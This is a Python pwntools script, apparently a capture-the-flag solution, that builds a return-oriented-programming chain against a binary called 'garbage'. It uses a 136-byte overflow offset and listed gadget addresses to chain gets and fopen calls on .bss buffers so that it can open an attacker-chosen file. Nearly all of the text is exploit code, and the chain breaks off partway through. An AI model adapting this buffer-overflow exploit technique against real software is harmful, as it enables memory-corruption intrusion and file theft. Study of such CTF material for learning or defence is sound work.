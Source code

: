 ```python
'''
# ROPgadget --binary garbage
0x0000000000401012 : add rsp, 8 ; ret
0x000000000040179b : pop rdi ; ret
0x0000000000401799 : pop rsi ; pop r15 ; ret
0x0000000000401016 : ret
'''

from pwn import *

# front matter
offset   = "A" * 136
pathname = 0x404100  # somewhere in .bss
mode     = 0x404120  # somewhere in .bss
ops      = 0x404140  # somewhere in .bss
buf      = 0x404200  # somewhere in .bss
payload  = ''

# functions
exit   = 0x401160
fopen  = 0x401130
gets   = 0x401100
puts   = 0x401050
read   = 0x4010c0

# gadgets
pop_rdi_ret = 0x40179b
pop_rsi_pop_ret = 0x401799
ret = 0x401016
skip = 0x401012

# exploit format
payload += offset

# get(pathname) - file we want to open
payload += p64(pop_rdi_ret)
payload += p64(pathname)
payload += p64(gets)
payload += p64(ret)

# get(mode) - r for reading, w for writing, etc.
payload += p64(pop_rdi_ret)
payload += p64(mode)
payload += p64(gets)
payload += p64(ret)

# fopen(pathname, mode)
payload += p64(pop_rsi_pop_ret)
payload += p64(mode)
payload += p64(skip)
payload += p64(pop_rdi_ret)
payload += p64(pathname)
payload += p64(fopen)
payload += p64(ret)

# get(ops) - this is basically redundant, the
# only purpose is to make sure rdx contains a
# large enough integer
payload += p64(pop_rdi_ret)
payload += p64(ops)
payload += p64(gets)
payload += p64(ret)

```